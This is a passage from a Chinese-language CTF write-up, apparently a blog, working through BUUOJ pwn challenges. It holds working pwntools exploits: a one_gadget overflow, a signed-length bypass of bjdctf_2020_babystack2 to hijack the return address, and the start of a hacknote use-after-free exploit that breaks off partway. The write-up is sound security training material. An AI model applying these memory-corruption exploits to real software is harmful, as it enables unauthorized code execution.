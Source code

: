 ```python
one_gadget = base + 0x45216
payload1 = padding + p64(one_gadget)
p.sendline(payload1)
p.interactive()
```  
## 0x05 BWrqt--spwn
详见栈迁移学习文章  
[spwn](https://lyp0000.github.io/2020/01/17/%E6%A0%88%E8%BF%81%E7%A7%BB%E5%AD%A6%E4%B9%A0/#more)  
## 0x06  bjdctf_2020_babystack2   
先看一下main函数  
![](bjdctf_2020_babystack2_1.png)
可以看到read的最后一个参数是需要我们输入长度的，但是下面对于长度有一个if条件检测，不能大于10。但是我们需要让nbytes起码要大于0x10才能溢出。所以我们需要输入"-1"，输入-1的原因是因为read的最后一个参数是unsigned int类型，0是最小值，输入-1的话他会变成最大值，这个数字很大很大，必然能造成溢出，而且-1 < 10 也能绕过if的检测，这题又学到了东西。  
贴出exp  
```python  
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
#p=remote("node3.buuoj.cn",27823)
p=process("./bjdctf_2020_babystack2")
elf=ELF("./bjdctf_2020_babystack2")
libc=elf.libc
padding = "a"*0x10 + "a"*8
p.recvuntil("name:\n")
p.sendline("-1")
p.recvuntil("name?\n")
payload = padding + p64(0x400726)
p.sendline(payload)
p.interactive()  
```  
## 0x07 hitcontraining_uaf
UAF漏洞，修改小note的puts字段之后，只要执行print_note函数，就可以执行magic函数  
```python  
#coding=utf-8
from pwn import*
from LibcSearcher import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
#p=process("./hacknote")
#p=remote("node3.buuoj.cn",25290)
elf=ELF("./hacknote")
magic = 0x8048986

def add(size,content):
    p.recvuntil("choice :")
    p.sendline("1")
    p.recvuntil("size :")
    p.sendline(str(size))
    p.recvuntil("Content :")
    p.sendline(content)

def delete(index):
    p.recvuntil("choice :")
    p.sendline("2")
    p.recvuntil("Index :")
    p.sendline(str(index))

def view(index):
    p.recvuntil("choice :")
    p.sendline("3")
```